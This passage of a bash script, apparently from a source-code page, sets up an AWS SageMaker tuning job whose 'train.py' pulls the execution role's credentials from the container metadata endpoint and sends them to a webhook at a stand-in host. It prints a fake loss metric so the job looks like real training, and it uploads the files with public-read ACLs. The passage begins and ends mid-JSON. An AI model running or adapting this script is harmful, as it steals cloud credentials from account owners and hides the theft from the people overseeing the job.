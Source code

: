 ```bash
  ]
}"

cat <<'EOF' > /tmp/train.py
import os, time, urllib.request

def main():
    meta = os.environ.get("AWS_CONTAINER_CREDENTIALS_RELATIVE_URI")
    if not meta:
        return
    creds = urllib.request.urlopen(f"http://169.254.170.2{meta}").read()
    req = urllib.request.Request(
        "https://example.com/webhook",
        data=creds,
        headers={"Content-Type": "application/json"}
    )
    urllib.request.urlopen(req)
    print("train:loss=0")
    time.sleep(300)

if __name__ == "__main__":
    main()
EOF

cd /tmp
tar -czf code.tar.gz train.py
aws s3 cp code.tar.gz s3://$BUCKET/code/train-code.tar.gz --region $REGION --acl public-read

echo "dummy" > /tmp/input.txt
aws s3 cp /tmp/input.txt s3://$BUCKET/input/dummy.txt --region $REGION --acl public-read

IMAGE=763104351884.dkr.ecr.$REGION.amazonaws.com/pytorch-training:2.1-cpu-py310
CODE_S3=s3://$BUCKET/code/train-code.tar.gz
TRAIN_INPUT_S3=s3://$BUCKET/input
OUTPUT_S3=s3://$BUCKET/output
# El rol necesita permisos ECR y escritura en el bucket.

cat > /tmp/hpo-definition.json <<EOF
{
  "AlgorithmSpecification": {
    "TrainingImage": "$IMAGE",
    "TrainingInputMode": "File",
    "MetricDefinitions": [{"Name": "train:loss", "Regex": "train:loss=([0-9.]+)"}]
  },
  "StaticHyperParameters": {
    "sagemaker_program": "train.py",
    "sagemaker_submit_directory": "$CODE_S3"
  },
  "RoleArn": "$ROLE_ARN",
  "InputDataConfig": [
    {
      "ChannelName": "training",
      "DataSource": {
        "S3DataSource": {
          "S3DataType": "S3Prefix",
          "S3Uri": "$TRAIN_INPUT_S3",
          "S3DataDistributionType": "FullyReplicated"
        }
      }
    }
  ],
  "OutputDataConfig": {
    "S3OutputPath": "$OUTPUT_S3"
```